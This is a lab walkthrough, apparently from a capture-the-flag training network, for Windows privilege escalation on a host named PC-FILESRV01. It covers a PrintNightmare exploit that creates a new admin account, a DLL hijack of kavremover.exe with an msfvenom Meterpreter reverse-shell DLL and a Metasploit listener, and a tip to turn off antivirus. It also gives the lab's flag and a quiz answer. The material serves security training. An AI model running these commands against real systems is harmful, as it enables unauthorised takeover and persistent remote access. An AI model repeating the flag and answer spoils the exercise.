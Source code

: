 Now that we have performed all the enumeration and situational awareness, we can move on to privilege escalation. Looking through our enumeration steps, you may notice a unique application connected to a scheduled task on the endpoint. We can attempt a DLL hijack on this application to escalate privileges, then set up persistence on the endpoint.

From the MITRE ATT&CK framework, DLL Hijacking is defined as *"Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. [[1]](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution."* The AT&CK Technique ID is [T1574](https://attack.mitre.org/techniques/T1574/).  

To utilize DLL Hijacking for privilege escalation, we will need to research the application and known vulnerabilities and DLLs and find a DLL not present on the system we have write access to.  

DLL Hijacking can also be used for persistence, as we will see later in the next task. This process is much easier than the previous one as we can use process monitoring tools like ProcMon and ProcessHacker2 to monitor for DLLs and their locations that can take over. The DLL persistence works by running the DLL with the application every time the system restarts or our connection is interrupted. This can be an application we put onto the system or an application already present that we exploit.  

Steps taken to perform DLL hijacking are outlined below.

1. Identify vulnerable application and location
2. Identify applications PID
3. Identify vulnerable DLLs that can be hijacked
4. Use MSFVenom or other payload creation tools to create a malicious DLL
5. Replace the original DLL with the malicious DLL
6. Profit

To begin escalating privileges with DLL Hijacking, we need to identify an application and scheduled task that we can target; this is covered in the previous two tasks. Once we have identified our target, we can use the power of Google to search for potential vulnerable DLLs associated with the application as we can not use tools like ProcMon to make the process easier.  

By googling, `<application> DLL Hijacking`, we can see several articles and blog posts that can lead us in the right direction and research the application for us.

If there is not any research on the application available, say a proprietary application. You can attempt to download the application from the server or find an identical copy on the internet for download that will allow you to search for vulnerable DLLs on your local machine. If you decide to take this approach, skip to the next task and complete the steps with ProcMon before returning to this task and exploiting the vulnerable DLL.


---

# Your job

## Privilege Escalation

Use a new vulnerability called `Print Nightmare` which was released in June 2021.
CVE-2021-34527, or PrintNightmare, is a vulnerability in the Windows Print Spooler that allows for a low priv user to escalate to administrator on a local box or on a remote server. More [info](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).

- Check if the system is likely to be vulnerable.
	- Open the `services.msc` and check if the “Print Spooler” service is running.
	
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134107843.webp]]
		It's vulnerable.
	- Check the updates on the system, this can be done via PowerShell:
		`wmic qfe list`
		
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134419904.webp]]
		The results show the last update on this system was done on 11/11/2020 which means it is likely to be vulnerable!

- Download the exploit from github to the attcking machine.
	`git clone https://github.com/calebstewart/CVE-2021-1675`

- Copy the `CVE-2021-1675.ps1` file to PC-FILESRV01. 

> [!tip]
> If you are using xfreerdp with /drive:share,/home/kali/tools/ you can copy directly into the macHine.

- Run the script through a PowerShell window:
	PS C:\Users\watamet\Downloads> `Import-Module .\CVE-2021-1675.ps1`

- Run the exploit.
	PS C:\Users\watamet\Downloads> `Invoke-Nightmare -NewUser "abcuser" -NewPassword "Abc1234!"`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140151649.webp]]

> [!success]
> You have an admin user called **abcuser**. It’s useful to note that the password needs to be complex enough to pass the criteria, otherwise the user won’t be added!

- Confirm the user was added.
	PS C:\Users\watamet\Downloads> `net user abcuser`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140539946.webp]]

- Connect into the machine with that user, this can be either via evil-winrm or RDP.
- Go into the Administrators desktop and get the root flag.


---

## Flag after rooting PC-FILESRV01

- Go into the Administrators desktop and get the root's flag.
    
    HOLO{ee7e68a69829e56e1d5b4a73e7ffa5f0}
    
- Submit the user flag on Task 4, question 7.


---

## DLL Hijacking

### Identify vulnerable application and location

Enumerate the system and you'll find  a very interesting application (kavremover.exe) on `C:\Users\watamet\Applications\`, which is unusual path for program.


### Use MSFVenom or other payload creation tools to create a malicious DLL

Now you know the name of DLL that we want to hijack. So all you have to do is place the malicious DLL in that path and wait for victim to execute the application. There are several ways of creating this DLL. For this article we will use msfvenom to create the payload.

> [!warning]
> The application will be detected as a virus by the AntiVirus, so make sure you turn off AV or windows defender.

#### Creating a payload DLL

Kavremover is a 32 bit application, we will create a 32 bit payload dll with msfvenom. The syntax for creating one is:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACHING MACHINE IP> LPORT=4444 -f dll -o kavremoverENU.dll
```

**Explanation**

- **p** stands for payload. We supply the payload as windows/meterpreter/reverse_tcp.
- **LHOST** is the attacker IP. (Your Kali IP)
- **LPORT** is the attacker Port.
- **f** is for format, we choose dll
- **o** is for name of output file, we will use the same name as the one we need to hijack, kavremoverENU.dll.

#### Download the dll

Copy or download the kavremoverENU.dll file to the victim machine `C:\Users\watamet\Applications\` directory.

As you are using a RDP connection with a drive shared, simply copy the file.

### Exploiting the DLL

- On the attacking machine, run `metasploit` to receive sessions from the payload.

```
$ msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <ATTACKING MACHINE IP>
set LPORT 4444
exploit
```

- Start the kavremover application.

	The application didn’t start. That’s because of the malicious DLL, as it didn’t export necessary functions and exited the thread. But on the positive side, check the listener, you got a session.
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241121133518095.webp]]

## Answer the questions

> [!question]
> What is the name of the vulnerable application found on PC-FILESRV01?
> `kavremover`

**Next step:** [[Task 44 - WERE TAKING OVER THIS DLL! Part II]]

